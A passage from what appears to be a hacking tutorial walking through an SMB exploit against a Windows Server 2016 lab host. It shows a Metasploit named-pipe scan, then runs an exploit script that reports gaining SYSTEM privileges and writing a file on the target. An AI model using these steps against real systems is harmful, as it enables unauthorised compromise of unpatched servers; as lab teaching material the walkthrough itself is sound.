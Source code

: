 ```
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads
```

All we really need to do is specify the IP address of our target.

```
set rhosts 10.10.0.100
```

```
rhosts => 10.10.0.100
```

And then we can **run** the scanner.

```
run
```

```
[+] 10.10.0.100:445       - Pipes: \netlogon, \lsarpc, \samr
[*] 10.10.0.100:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

It looks like it found a few named pipes. Awesome.

## Step 3: Run the Exploit File

Now we should be able to run the exploit file. Back in the first terminal from Step 1, where we're still in the exploit directory, use the target's IP address and one of the named pipes we found as parameters.

```
python exploit.py 10.10.0.100 netlogon
```

```
Target OS: Windows Server 2016 Standard Evaluation 14393
Target is 64 bit
Got frag size: 0x20
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xf90
CONNECTION: 0xffff928c5dc1e020
SESSION: 0xffffac016815e210
FLINK: 0xffffac0167062098
InParam: 0xffffac016705c16c
MID: 0x3303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```
